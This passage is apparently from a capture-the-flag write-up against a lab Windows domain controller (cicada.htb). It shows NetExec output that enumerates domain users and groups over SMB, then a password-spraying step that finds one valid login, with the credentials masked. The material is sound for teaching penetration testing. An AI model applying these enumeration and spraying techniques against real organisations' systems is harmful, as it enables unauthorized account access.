     SMB                      10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
    SMB                      10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
    SMB                      10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
    SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
    SMB                      10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
    SMB                      10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\j***.s******* (SidTypeUser)           <- HERE
    SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\s****.d******* (SidTypeUser)          <- HERE
    SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\m******.w******** (SidTypeUser)       <- HERE
    SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\d****.o******* (SidTypeUser)          <- HERE
    SMB                      10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
    SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\e****.o***** (SidTypeUser)            <- HERE
    ```

- Next, we will attempt Netexec's Password Spraying attack. For the username parameter we'll pass the username.txt file, and for the password parameter we'll pass the default_pass.txt file. This is our password spray attack ... and we're in!

    - This step will yield which username matches the default_pass.txt value. To avoid confusion in the next steps, I will refer to this username/password combination as User MW.

    #### NXC Result

    ```
    SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
    SMB                      10.10.11.35     445    CICADA-DC        [-] CICADA\j***.s*******:******************* STATUS_LOGON_FAILURE
    SMB                      10.10.11.35     445    CICADA-DC        [-] CICADA\s****.d*******:******************* STATUS_LOGON_FAILURE
    SMB                      10.10.11.35     445    CICADA-DC        [+] CICADA\CICADA\m******.w********:*******************
    SMB                      10.10.11.35     445    CICADA-DC        [-] CICADA\d****.o*******:******************* STATUS_LOGON_FAILURE
    SMB                      10.10.11.35     445    CICADA-DC        [-] CICADA\e****.o*****:******************* STATUS_LOGON_FAILURE
    ```
